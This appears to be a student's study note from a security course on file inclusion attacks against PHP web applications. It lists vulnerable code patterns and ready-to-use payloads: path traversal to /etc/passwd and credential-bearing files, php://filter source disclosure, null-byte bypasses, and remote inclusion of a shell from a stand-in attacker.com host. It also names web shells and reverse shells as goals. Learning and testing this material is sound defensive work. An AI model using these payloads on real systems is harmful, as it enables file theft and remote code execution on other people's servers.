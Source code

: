 ```bash
## File Inclusion Vulnerability Research & Exploitation

### 🎯 MODULE COMPLETION: FILE INCLUSION
**Status:** Mastered ✅
**Red Team Application:** Initial Access & Intelligence Gathering

### 🔴 FILE INCLUSION TRADECRAFT DOCUMENTATION

#### 📊 VULNERABILITY OVERVIEW
File inclusion vulnerabilities occur when web applications improperly validate user input used in file operations, allowing attackers to read local files or include remote files for code execution.

#### 🎲 EXPLOITATION TECHNIQUES MASTERED

##### LOCAL FILE INCLUSION (LFI)
```php
// Vulnerable Code Patterns
include($_GET['page'] . ".php");
require_once($_POST['template']);
file_get_contents($user_input);
Exploitation Payloads:

http
?page=../../../etc/passwd
?file=../../windows/win.ini
?include=php://filter/convert.base64-encode/resource=index.php
REMOTE FILE INCLUSION (RFI)
Prerequisites: allow_url_include=On

http
?page=http://attacker.com/shell.txt
?load=data://text/plain,<?php system('id'); ?>
PATH TRAVERSAL
http
# Basic Traversal
?file=../../../../etc/passwd

# Bypass Techniques
?file=....//....//....//etc/passwd
?file=../../../etc/passwd%00
?file=../../../etc/passwd................
🛠️ RED TEAM OPERATIONAL PROCEDURES
RECONNAISSANCE PHASE
Parameter enumeration in GET/POST/COOKIE/HEADERS

Application technology stack identification

PHP configuration analysis

EXPLOITATION PHASE
LFI for Intelligence Gathering

bash
/etc/passwd - User enumeration
/var/log/auth.log - Authentication logs
/proc/self/environ - Environment variables
Application config files
RFI for Initial Access

bash
Web shell deployment
Reverse shell establishment
Persistence mechanism installation
```